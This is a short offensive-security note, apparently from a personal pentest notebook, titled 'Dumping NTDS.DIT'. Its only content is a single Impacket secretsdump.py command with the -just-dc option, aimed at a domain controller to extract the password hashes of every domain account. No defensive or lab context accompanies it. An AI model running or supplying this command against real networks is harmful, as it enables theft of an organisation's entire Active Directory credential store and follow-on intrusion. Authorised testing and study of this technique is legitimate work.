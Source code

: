 ```yaml
---
title: Dumping NTDS.DIT
updated: 2023-03-30T08:30:00.0000000+04:00
created: 2023-03-30T08:29:01.0000000+04:00
---
```


Dumping NTDS.DIT
Thursday, March 30, 2023
8:29 AM
![image1](image1-134.png)

| Command | Python /opt/impacket/examples/secretsdump.py -just-dc username@ip_address_of_domain |
|---------|-------------------------------------------------------------------------------------|

